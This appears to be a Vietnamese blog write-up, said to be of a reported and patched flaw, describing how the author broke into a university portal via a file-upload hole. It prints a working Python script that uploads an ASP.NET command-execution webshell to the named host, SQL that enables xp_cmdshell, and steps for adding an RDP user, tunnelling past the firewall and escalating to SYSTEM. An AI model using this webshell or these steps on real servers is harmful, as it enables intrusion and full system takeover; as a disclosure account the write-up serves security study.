> Lỗ hổng đã report và được vá

> Do tình trạng dịch đang bùng phát nên sinh viên học sinh toàn quốc được nghỉ học, mình có nhiều thời gian rảnh rỗi để vọc này kia, thế là quyết định lấy con FAP của trường ra thông thử



* Đây là giao diện của website, sau khi login thì mình F12 view-source xem có gì hay ho không thì phát hiện ra 1 url 



`/SRS/AddQA.aspx`

* Truy cập vào là một giao diện ý kiến của mình gửi cho nhà trường và có form upload



* Do ở đây mình không biết chính xác subject code các kiểu nên intercept nó lại và đẩy vào burpsuite để bắt request response của nó xem như thế nào



* Thì phát hiện ra một số param và endpoint để tấn công

  * Thứ nhất:
  
 ```
Content-Type: multipart/form-data;
 boundary=---------------------------324402796424983 -----------------------------324402796424983 
Content-Disposition: form-data; name=“ctl00mainContentmainContentfileUpLoad”; filename=“1.aspx”
aaa-----------------------------324402796424983 Content-Disposition: form-data; name=“ctl00mainContentmainContentbtnUpLoad”

Send Question
```

* Có params và content-type để gửi file
  
  * Thứ 2:
  
  
  
  * Request mình upload file lên sẽ được xử lý ở upload.aspx và lưu trong /temp/MOOC/‘tên file’
Ý tưởng là sẽ dùng params có sẵn ở request để post file lên server thông qua upload.aspx, payload python đơn giản để test thử con shell:
```py
import requests

url = "http://fap.fpt.edu.vn/SRS/upload.aspx"
payload = """<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">
Sub RunCmd(Src As Object, E As EventArgs)
  Dim myProcess As New Process()
  Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)
  myProcessStartInfo.UseShellExecute = false
  myProcessStartInfo.RedirectStandardOutput = true
  myProcess.StartInfo = myProcessStartInfo
  myProcessStartInfo.Arguments=xcmd.text
  myProcess.Start()
  Dim myStreamReader As StreamReader = myProcess.StandardOutput
  Dim myString As String = myStreamReader.Readtoend()
  myProcess.Close()
  mystring=replace(mystring,"<","&lt;")
  mystring=replace(mystring,">","&gt;")
  result.text= vbcrlf & "<pre>" & mystring & "</pre>"
End Sub
</script>

<html>
<body>
<form runat="server">
<p><asp:Label id="L_p" runat="server" width="80px">Program</asp:Label>
<asp:TextBox id="xpath" runat="server" Width="300px">c:\\windows\\system32\\cmd.exe</asp:TextBox>
<p><asp:Label id="L_a" runat="server" width="80px">Arguments</asp:Label>
<asp:TextBox id="xcmd" runat="server" Width="300px" Text="/c net user">/c net user</asp:TextBox>
<p><asp:Button id="Button" onclick="runcmd" runat="server" Width="100px" Text="Run"></asp:Button>
<p><asp:Label id="result" runat="server"></asp:Label>
</form>
</body>
</html>"""
files = [('ctl00$mainContent$fileUpLoad', ('1.aspx', payload, 'image/jpeg')), ('ctl00$mainContent$btnUpLoad', ('1.aspx', 'Send Question'))]


headers = {
  'Host': 'fap.fpt.edu.vn',
  'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0 Waterfox/56.3',
  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
  'Accept-Language': 'en-US,en;q=0.5',
  'Accept-Encoding': 'gzip, deflate',
  'Connection': 'close',
  'Upgrade-Insecure-Requests': '1',
  'Cache-Control': 'max-age=0',
  'Content-Length': '300'
}

response = requests.post(url, headers=headers, files=files)

print(response.text)
```

* Sau khi thực thi payload kết quả trả về:


  
* Url trả về cho thấy mình đã post đc con shell lên server =)), eazy, tiếp theo là access con shell qua url trả về





* Sau khi dùng string connect thành công, ở đây là user SA thì có khả năng đủ quyền để enable hàm xp_cmdshell trên mssql, sau đó gọi đến command line và thực thi lệnh

```
- EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
- EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```



* Vậy là đã RCE thành công, tiếp tục là add user vô rdp



* Vậy là đã tạo được user trên server. Bước tiếp theo khá là quan trọng vì port rdp được bảo vệ bởi firewall, mình không thể connect từ ngoài vào được, nên mình sẽ sử dụng kĩ thuật tunnel

* Cơ chế hoạt động của Tunna như sau:



* Hiểu nôm na là hacker sẽ thông qua 1 con webshell đã được gắn trên server, vượt qua firewall, và đem port trong local ra ngoài để mạng mình có thể connect tới,

* Sau khi Tunnel thành công mình đã connect được rdp qua tài khoản và mật khẩu vừa tạo



* Chưa dừng ở đây, do bản server win dùng khá củ nên mình thử sử dụng exploit leo quyền CVE-2019-1388, lỗi này leo quyền logic dựa trên Windows Certificate Dialog

 

> Kết quả là đã leo lên quyền system thành công!


